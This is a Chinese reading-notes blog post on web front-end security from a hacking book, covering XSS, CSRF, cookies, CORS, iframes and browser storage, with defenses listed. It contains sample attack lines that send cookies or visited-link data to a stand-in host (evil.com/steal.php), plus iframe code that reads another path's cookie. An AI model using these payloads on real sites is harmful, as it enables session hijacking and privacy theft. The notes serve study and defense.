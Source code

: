 ```yaml
---
title: 读《web前端黑客技术揭秘》
date:   2018/6/1
categories: Reading
tags: 读书笔记 
---
```


### XSS 跨站脚本攻击
如果攻击者构造出如下链接：
http://www.foo.com/info.html#new%20Image().src="http://www.evil.com/steal.php?c="+escape(document.cookie)
浏览器解释执行后，下面的语句：
eval(location.hash.substr(1));
会变为：
eval('new Image().src="http://www.evil.com/steal.php?c="+escape(document.
cookie)')
Cookies 会话信息就会被盗取到黑客的网站上

### CSRF 
CSRF 是跨站请求伪造，CSRF 会借用目标用户的权限做一些借刀杀人的事（注意是“借用”，而不是“盗取”
目标权限），然后去做坏事，
“盗取”通常是XSS（跨站脚本攻击）最喜欢做的事。

1. 防御XSS攻击

 HttpOnly 防止劫取 Cookie、用户的输入检查、服务端的输出检查

2. 防御CSRF攻击

  验证码、Referer Check、Token 验证

### APT
APT（持久化威胁）攻击
如果是个反射型的XSS，IE 8/IE 9/Chome 直接就给拦截了。

### 无状态的HTTP
HTTP 是无状态的，那么每次在连接时，服务端如何知道你是上一次的那个？
这里通过Cookies 进行会话跟踪，第一次响应时设置的Cookies 在随后的每次请求中都会发
送出去。Cookies 还可以包括登录认证后的身份信息。

### 响应资源的类型与字符集
Content-Type: text/html;charset=gbk
响应资源的类型与字符集。针对不同的资源类型会有不同的解析方式，这个会影响浏
览器对响应体里的资源解析方式，可能因此带来安全问题。字符集也会影响浏览器的解码
方式，同样可能带来安全问题。

### Set-Cookie
Set-Cookie: USERID=c7888882e039b32fd7b4d3; expires=Tue, 01 Jan 2030
00:00:00 GMT; path=/; domain=.foo.com
每个 Set-Cookie 都设置一个Cookie（key=value 这样），随后是如下内容。
expires：过期时间，如果过期时间是过去，那就表明这个Cookie 要被删。
path：相对路径，只有这个路径下的资源可以访问这个Cookie。
domain：域名，不允许设为下一级子域或其他外域，可以指定为父级域
HttpOnly：标志（默认无，如果有的话，表明Cookie 存在于HTTP 层面，不能被客户
端脚本读取）。
Secure：标志（默认无，如果有的话，表明Cookie 仅通过HTTPS 协议进行安全传输）。但是Secure Cookie 对于客户端脚本来说是可读写的。可读意味着
Secure Cookie 能被盗取，可写意味着能被篡改。

### iframe
攻击者入侵一个网站后，可以通过iframe 嵌入自己的网马页面，用户访问该网站后，被嵌入的网马页面就会执行

当网站页面使用iframe 方式嵌入一个页面时，
我们约定网站页面是父页，而被嵌入的这个页面是子页。那么父页与子页之间如何跨文档读写数据？
如果父页和子页之间是同域，那就很容易，父页可以通过调用子页的contentWindow
来操作子页的DOM 树，同理，子页可以调用父页的contentWindow 来操作父页的DOM 树。
如果它们不同域，则必须遵守同源策略，但子页还是可以对父页的location 值进行写操作，
这样可以让父页重定向到其他网页，不过对location 的操作仅仅只有写权限，而没有读权
限，这样就不能获取到父页location URL 的内容，否则有可能会造成隐私数据泄漏，

### 跨域
 www.foo.com（来源域）的AJAX 向www.evil.com（目标域）发起了请求，浏览器会
给自动带上Origin 头，如下：
Origin: http://www.foo.com
然后目标域要判断这个Origin 值，如果是自己预期的，那么就返回：
Access-Control-Allow-Origin: http://www.foo.com
表示同意跨域

如果目标域不设置Access-Control-Allow-Origin: http://www.foo.com，那么隐私数据可
以被偷到吗？答案是肯定的。虽然浏览器会报权限错误的问题，但实际上隐私数据已经被
目标域的steal.php 接收到了。

### 跨域带上会话
默认情况下，跨域不会带上目标域的会话（Cookies 等），需要设置xhr 实例的withCredentials 属性为true（IE 还不支持），同时目标域的steal.php 必须设置如下：
<?php
header("Access-Control-Allow-Origin: http://www.foo.com");
header("Access-Control-Allow-Credentials: true"); // 允许跨域证书发送
//...
?>
有 一 点 需 要 注 意 ， 如 果设置了Access-Control-Allow-Credentials 为true ， 那么
Access-Control-Allow-Origin 就不能设置为*通配符

### 跨路径读取Cookie
那么有什么办法跨路径读取Cookie？比如，/evil/路径想读取/admin/路径的Cookie。很简单，通过跨iframe 进行
DOM 操作即可，/evil/路径下页面的代码如下：
```javascript
xc = function(src){
var o = document.createElement("iframe"); // iframe 进入同域的目标页面
o.src = src;
document.getElementsByTagName("body")[0].appendChild(o);
o.onload = function(){ // iframe 加载完成后
d = o.contentDocument || o.contentWindow.document;
// 获取document 对象
alert(d.cookie); // 获取cookie
};
}('http://a.foo.com/admin/index.php');
```
所以，通过设置path 不能防止重要的Cookie 被盗取。

### 本地Cookie 与内存Cookie
如果没设置过期时间，就是内存Cookie，这样的Cookie 会随着浏览器的关闭而从内存中消失；如果设置了
过期时间是未来的某个时间点，那么这样的Cookie 就会以文本形式保存在操作系统本地，
待过期时间到了才会消失。

### P3P
HTTP 响应头的P3P（Platform for Privacy Preferences Project）字段是W3C 公布的一项
隐私保护推荐标准。该字段用于标识是否允许目标网站的Cookie 被另一个域通过加载目标
网站而设置或发送，仅IE 执行了该策略。
比如，evil 域通过script 或iframe 等方式加载foo 域（此时foo 域被称为第三方域）。
加载的时候，有两种场景

1. 浏览器是否会允许foo 域设置自己的Cookie

    在IE 下默认都是不允许第三方域设置域已有的Cookie的，除非foo 域在``响应的时候带上P3P 字段``

2. 浏览器是否允许发送请求到foo 域时，带上foo 域已有的Cookie

    发送的Cookie 如果是内存Cookie，则无所谓是否有P3P 属性，就可以正常发送；如果
    是本地Cookie，则这个本地Cookie 必须拥有P3P 属性，否则，即使目标域响应了P3P 头
    也没用。
### IE的userData
 ```javascript
 function set_ud(key,value) {
    var a = document.getElementById('x'); // x 为任意div 的id 值
    a.addBehavior("#default#userdata");
    a.setAttribute(key,value);
    a.save("db");
}
function get_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.load("db");
    alert(a.getAttribute(key));
}
function del_ud(key) {
    var a = document.getElementById('x');
    a.addBehavior("#default#userdata");
    a.setAttribute(key, ""); // 设置为空值即可
    a.save("db");
}
window.onload = function(){
    set_ud('a','xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'); // 设置
    get_ud('a'); // 获取a 的值
    del_ud('a'); // 删除a 的值
    get_ud('a'); // 获取a 的值
};
 ```
### FlashCookie
```actionScript
function set_lso(k:String="default", v:String=""):void
{ // 设置值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.data[k] = v;
    shared.flush();
}
function get_lso(k:String="default"):String
{ // 获取值
    var str:String = "";
    var shared:SharedObject = SharedObject.getLocal("db");
    str = shared.data[k];
    return str;
}
function clear_lso():void
{ // 清空值
    var shared:SharedObject = SharedObject.getLocal("db");
    shared.clear();
}
```

### 函数劫持很简单
一般情况下，只要在目标函数触发之前，重写这个函数即可

### css
```css
#a2:visited {background: url(http://www.evil.com/css/steal.php?data=a2);}
```